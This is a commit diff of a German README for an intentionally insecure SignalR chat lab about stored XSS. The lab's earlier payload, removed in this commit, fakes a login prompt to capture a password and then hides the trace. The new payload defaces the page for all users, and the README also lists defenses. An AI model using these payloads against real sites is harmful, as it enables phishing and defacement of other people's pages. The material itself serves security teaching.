

Before and after one commit to Alaa-Alhomsi/Vulnerable-Chat-Demo, a Markdown page: README.md, 3 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise README for clarity and feature updates
Updated project description and improved clarity on features and security vulnerabilities.

````diff
--- a/README.md
+++ b/README.md
@@ -1,11 +1,11 @@
 # 🛡️ SignalR XSS & Security Lab
 
-Dieses Projekt ist eine absichtlich unsichere Chat-Anwendung. Sie dient als **Lernumgebung**, um Sicherheitslücken wie Cross-Site Scripting (XSS) und die Risiken von LocalStorage-basierten JWTs zu verstehen und zu beheben.
+Dieses Projekt ist eine absichtlich unsichere Chat-Anwendung. Sie dient als **Lernumgebung**, um Sicherheitslücken wie Cross-Site Scripting (XSS) und die Risiken von LocalStorage-basierten JWTs zu verstehen, zu demonstrieren und zu beheben.
 
 ## 🚀 Features
-* Echtzeit-Chat mit **SignalR** und ASP.NET Core.
-* Dynamisches Pastell-Design basierend auf dem Benutzernamen.
-* **Absichtliche Schwachstellen:** Demonstriert XSS durch die Verwendung von `innerHTML`.
+* **Echtzeit-Chat:** Kommunikation über **SignalR** und ASP.NET Core.
+* **Dynamisches Design:** Automatische Generierung von Pastell-Farben basierend auf dem Benutzernamen.
+* **Absichtliche Schwachstellen:** Demonstriert **Stored XSS** durch die Verwendung von `innerHTML` statt `textContent`.
 * **Dynamische Endpunkte:** Das Frontend nutzt relative Pfade, sodass kein Hardcoding von Ports nötig ist.
 
 ## 🛠️ Installation & Start
@@ -20,17 +20,14 @@ Dieses Projekt ist eine absichtlich unsichere Chat-Anwendung. Sie dient als **Le
 
 ---
 
-## ☣️ Das "In-Place Phishing" Experiment
+## ☣️ Das "Hacker-Defacement" Experiment
 
-Dieses Tutorial zeigt, wie ein Angreifer die komplette Kontrolle über das User-Interface übernehmen kann, ohne dass die URL in der Adresszeile sich ändert.
+Dieses Tutorial zeigt, wie ein Angreifer das komplette Aussehen der Webseite für alle Nutzer verändern kann ("Defacement"). Dies ist ein klassischer Weg, um Macht über eine Webpräsenz zu demonstrieren.
 
 ### Der Angriff:
-Kopiere diesen Payload in das Chat-Eingabefeld. Er simuliert eine abgelaufene Sitzung, greift das Passwort ab und stellt danach den Chat-Zustand wieder her, damit das Opfer keinen Verdacht schöpft.
+Kopiere diesen Payload in das Chat-Eingabefeld. Sobald andere Nutzer diese Nachricht empfangen, verwandelt sich ihr Chat-Fenster in einen "Hacked"-Screen mit Matrix-Vibe.
 
 ```html
 <img src=x onerror="
-    /* 1. Aktuellen Zustand der Seite speichern */
-    const originalContent = document.body.innerHTML;
-
-    /* 2. Den Phishing-Bildschirm erstellen */
+    /* Die Seite komplett schwarz machen und Hacker-Style erzwingen */
     document.body.innerHTML = `
@@ -44,24 +40,15 @@ Kopiere diesen Payload in das Chat-Eingabefeld. Er simuliert eine abgelaufene Si
         </div>`;
 
-    /* 3. Event-Listener für den Button */
-    document.getElementById('btn').onclick = function() {
-        const pass = document.getElementById('p').value;
-
-        /* 4. Passwort 'stehlen' (Demo-Zwecke) */
-        alert('ANGREIFER HAT DAS PASSWORT: ' + pass);
-
-        /* 5. Alles wieder auf Anfang setzen - der User merkt nichts */
-        document.body.innerHTML = originalContent;
-
-        /* 6. Seite neu laden, um Scripte/Verbindungen zu reaktivieren */
-        location.reload();
-    };
+    /* Ein kleiner Matrix-Effekt im Hintergrund */
+    setInterval(() => {
+        document.getElementById('matrix').innerHTML += Math.random().toString(2).substring(2, 10) + ' ';
+    }, 100);
 ">
 ```
 
 ### 🔄 Notfall-Reset via Swagger
 
-Sollte ein Angriff die Website komplett unbrauchbar gemacht haben, kannst du das System jederzeit zurücksetzen. Da die Nachrichten direkt aus der Datenbank gerendert werden, löscht ein Reset der DB-Einträge auch den bösartigen Code:
+Sollte ein Angriff die Website komplett unbrauchbar gemacht haben, kannst du das System jederzeit zurücksetzen. Da die Nachrichten direkt aus der Datenbank geladen werden, löscht ein Reset der DB-Einträge auch den bösartigen Code:
 
 1.  Navigiere zu http://localhost:5001/swagger.
 
@@ -77,8 +64,13 @@ Sollte ein Angriff die Website komplett unbrauchbar gemacht haben, kannst du das
 
 In einer produktiven App sollten folgende Punkte umgesetzt werden:
 
-1.  **Kein innerHTML:** Verwende in script.js konsequent .textContent statt .innerHTML. Dies verhindert, dass der Browser User-Input als Code ausführt.
+*   **Kein innerHTML:** Verwende in script.js konsequent .textContent statt .innerHTML. Dies ist die wichtigste Verteidigung gegen XSS.
 
-2.  **HttpOnly Cookies:** Speichere JWTs niemals im localStorage. Nutze HttpOnly Cookies, damit JavaScript keinen Zugriff auf die Session-Token hat.
+*   **HttpOnly Cookies:** Speichere JWTs niemals im localStorage. Nutze **HttpOnly Cookies**, damit JavaScript keinen Zugriff auf die Session-Token hat.
 
-3.  **CSP (Content Security Policy):** Implementiere einen CSP-Header, der Inline-Skripte (onerror, ) blockiert.</div></li><li class="slate-li"><div style="position:relative"><strong class="slate-bold">Backend Sanitization:</strong> Nutze Bibliotheken wie Ganss.XSS im Backend, um eingehende Nachrichten zu filtern, bevor sie gespeichert werden.</div></li></ol><p class="slate-paragraph"><strong class="slate-bold">Warnung:</strong> Dieses Projekt dient nur zu Bildungszwecken. Führe diese Angriffe niemals auf Systemen aus, die dir nicht gehören.</p><p class="slate-paragraph"></p></x-turndown>
+*   **CSP (Content Security Policy):** Implementiere einen **CSP-Header**, der Inline-Skripte wie onerror blockiert.
+
+*   **Backend Sanitization:** Nutze Bibliotheken wie **Ganss.XSS** im Backend, um Nachrichten zu filtern, bevor sie gespeichert werden.
+
+
+> \[!WARNING\]**Warnung:** Dieses Projekt dient ausschließlich zu Bildungszwecken. Das Ausführen von XSS-Angriffen auf fremde Systeme ohne Erlaubnis ist illegal.
````
Also changed, not shown: other parts of README.md (+6 -7 lines).
